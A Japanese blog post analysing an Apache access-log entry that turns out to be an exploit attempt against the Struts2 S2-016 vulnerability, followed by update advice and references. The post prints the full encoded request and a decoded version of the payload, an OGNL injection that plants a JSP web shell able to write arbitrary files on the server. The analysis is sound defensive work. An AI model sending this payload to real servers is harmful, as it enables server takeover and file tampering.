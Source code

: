 ```yaml
---
title: apacheのaccess_logにjavaのソースコードみたいなアクセスが記録されていた。(Struts2の脆弱性S2-016への攻撃)
pubtime: 2015-07-01T16:04+0900
amp: hybrid
tags: [apache, access_log, java, Struts2, S2-016]
description: 自宅サーバで動かしているApacheに対してStruts2の脆弱性「S2-016」を悪用しようとする攻撃が来ていたので、その内容を調べてみました。
---
```


さっきの[apache killerの話](/blog/2015/07/python-make-apache-killer)を書いたあとでapacheのアクセスログを見ていたら、こんなアクセスが。
```
xx.xx.xx.xx [01/Jul/2015:03:09:11 +0900] "GET /index.php?redirect:$%%7b%%2523req%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%%2523res%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%2523res.getWriter().println(%%2522okokok%%2522),%%2523res.getWriter().flush(),%%2523res.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%%2523req.getRealPath(%%2522/%%2522)%%252b%%2522lndex.jsp%%2522)).append(%%2523req.getParameter(%%2522shell%%2522)).close()%%7d&shell=%%253C%%2525if(request.getParameter(%%2522f%%2522)!%%253Dnull)(new%%2520java.io.FileOutputStream(application.getRealPath(%%2522%%252F%%2522)%%252Brequest.getParameter(%%2522f%%2522))).write(request.getParameter(%%2522t%%2522).getBytes())%%253B%%2525%%253E%%253Ca%%2520href%%253D%%2522One_OK%%2522%%253E%%253C%%252Fa%%253E HTTP/1.1" 404 2583 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1"
```
なんじゃこりゃ。むっちゃ長い。

どうもプログラムのコードをそのまんま突っ込んであるようなので、バラしてみました。
```
redirect:
    ${
        #req = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
        #res = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),
        #res.getWriter().println("okokok"),
        #res.getWriter().flush(),
        #res.getWriter().close(),
        new java.io.BufferedWriter(
            new java.io.FileWriter(
                #req.getRealPath("/") + "lndex.jsp"
            )
        ).append(#req.getParameter("shell")).close()
    }
    &shell = <%%
        if(request.getParameter("f") != null)
            (
                new java.io.FileOutputStream(application.getRealPath("/") + request.getParameter("f"))
            ).write(request.getParameter("t").getBytes());
    %%>
    <a href="One_OK"></a>
```
こんな感じになった。
javaだよjava。javaが埋めこまれている。

調べてみると、どうやら**Sturts2**とやらが関連するようです？
Sturts2というのはjavaでwebアプリケーションを記述するためのフレームワークとのこと。Apacheが作っているらしい。
で、今回問題になるのは*S2-016*という脆弱性。[Apache Struts 2 DocumentationのS2-016のページ](http://struts.apache.org/docs/s2-016.html)を見てみると、確かに似たような雰囲気のURIのサンプルが載っている。

脆弱性の内容としては、クエリに`redirect: `から始まる何かを書いたURIでGETすると、任意のソースを実行できてしまう、というもののようです。
バラしたURIを上に書きましたが、Javaのコードをそのまんま書いて、そのまんま実行するっぽい。
うーむ、くわばらくわばら。

影響をうけるのはStrutsの2.0.0から2.3.15とのこと。
Struts2を利用しているのなら要アップデート、ですかね。

---

参考：
- [Tomcat Files Getting uploaded - Security Loophole - Stack Overflow](http://stackoverflow.com/questions/21104956/tomcat-files-getting-uploaded-security-loophole)
- [Apache Struts の脆弱性 (S2-016) に関する注意喚起](https://www.jpcert.or.jp/at/2013/at130033.html)
